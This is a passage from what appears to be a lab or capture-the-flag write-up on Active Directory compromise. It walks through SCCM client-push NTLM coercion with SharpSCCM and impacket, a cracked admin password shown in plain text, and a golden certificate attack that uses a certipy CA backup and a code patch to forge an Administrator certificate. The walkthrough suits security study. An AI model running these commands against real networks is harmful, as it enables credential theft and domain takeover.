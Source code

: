 Enumerate the Management Point and SMS name using SharpSCCM:
`SharpSCCM.exe local site-info`
![](https://photos.squarezero.dev/file/abir-images/push/22.png)

Use responder or impacket-smbserver to listen for the NTLMv2 challenge hash, then use SharpSCCM to perform coercion via the client-push method:
`impacket-smbserver share -smb2support .`
`SharpSCCM.exe invoke client-push -t 10.8.2.110`
![](https://photos.squarezero.dev/file/abir-images/push/23.png)

After decrypting the hash, we obtain the credentials of SCCADMIN.
![](https://photos.squarezero.dev/file/abir-images/push/24.png)

# Golden Certificate
SCCADMIN is an administrator on CA server. We can perform golden certification attack by forging fake certificate. First we will need to create an backup of the CA.

`certipy ca -u sccadmin -p '7ujm&UJM' -target-ip MS01.push.vl -backup`
![](https://photos.squarezero.dev/file/abir-images/push/25.png)

Using the certificate and private key from the backup, forge an administrator certificate and private key.
![](https://photos.squarezero.dev/file/abir-images/push/27.png)

If an error occurs during the action, we can temporarily hardcode the attributes. Modify the file at 
Location → `~/.local/lib/python3.12/site-packages/certipy/lib/certificate.py`

```Bash
from cryptography.x509.oid import NameOID
from cryptography import x509

def get_subject_from_str(subject: str):
    # Only works for the specific string you're using
    return x509.Name([
        x509.NameAttribute(NameOID.COMMON_NAME, "Administrator"),
        x509.NameAttribute(NameOID.ORGANIZATIONAL_UNIT_NAME, "Users"),
        x509.NameAttribute(NameOID.DOMAIN_COMPONENT, "PUSH"),
        x509.NameAttribute(NameOID.DOMAIN_COMPONENT, "VL")
    ])
```

![](https://photos.squarezero.dev/file/abir-images/push/26.png)

Extract both the certificate and private key from the PFX file.

```Bash
#Extract Certificate
certipy cert -pfx administrator_forged.pfx -nokey -out admin.crt

#Extract Private Key
certipy cert -pfx administrator_forged.pfx -nocert -out admin.key
```
![](https://photos.squarezero.dev/file/abir-images/push/28.png)
